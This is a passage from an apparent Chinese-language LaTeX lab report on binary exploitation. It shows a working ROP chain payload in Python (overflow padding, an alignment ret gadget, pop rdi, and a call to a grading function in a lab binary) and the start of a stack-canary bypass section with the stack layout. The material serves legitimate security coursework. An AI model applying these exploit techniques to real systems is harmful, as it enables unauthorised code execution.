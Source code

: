 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection{ROP 链与对齐处理}

\texttt{grade\_eval} 位于 \texttt{0x401978}。最初构造的链为 \texttt{pop rdi; 4; grade\_eval}，却崩溃在 glibc 的 \texttt{movaps}（要求 16 字节对齐）处。实测该情况下进入 \texttt{grade\_eval} 时 \texttt{rsp \% 16 == 0}，而 ABI 要求函数入口 \texttt{rsp \% 16 == 8}（即正常 \texttt{call} 压入返回地址后的状态）。在链首增加一个 \texttt{ret} gadget 多消耗一个 8 字节槽位后，入口对齐翻转正确。最终链如下：

\begin{lstlisting}[language=Python]
chain  = struct.pack("<Q", 0x401A34)  # ret：对齐填充
chain += struct.pack("<Q", 0x401A33)  # pop rdi ; ret
chain += struct.pack("<Q", 4)         # rdi = 4
chain += struct.pack("<Q", 0x401978)  # grade_eval
payload = b"A"*16 + b"B"*8 + chain + b"\n"
\end{lstlisting}

执行过程：\texttt{input} 的 \texttt{ret}（此时 \texttt{rsp} 16 字节对齐）先进入填充 \texttt{ret}，再经 \texttt{pop rdi} 将 4 装入 \texttt{rdi}，最后 \texttt{ret} 进入 \texttt{grade\_eval}，入口 \texttt{rsp \% 16 == 8}，\texttt{printf} 正常执行，输出 \texttt{Hope A will be your grade!}。多次运行结果稳定，不依赖随机化的栈地址。

\section{任务四：Canary 绕过}

\texttt{dark-log} 在编译时开启了 Stack Protector：函数入口从 \texttt{fs:0x28} 取出随机 canary 存于 \texttt{rbp-0x8}，返回前校验，一旦被改即调用 \texttt{\_\_stack\_chk\_fail} 终止。直接经 \texttt{gets} 覆盖返回地址必然先破坏 canary，故需借助函数自身逻辑曲线绕过。

\subsection{栈布局}

\texttt{input} 帧大小 \texttt{0x120}，结构体 \texttt{log\_frame} 各字段相对 \texttt{expression}（\texttt{rbp-0x120}）的偏移为：

\begin{lstlisting}
0x000  expression[128]   (rbp-0x120)
0x080  logMsg[128]       (rbp-0xa0)
0x100  len (int)         (rbp-0x20)
0x104  pad[8] 与空隙
0x118  canary            (rbp-0x8)
0x120  saved rbp         (rbp)
0x128  return address    (rbp+8)
\end{lstlisting}
\end{document}
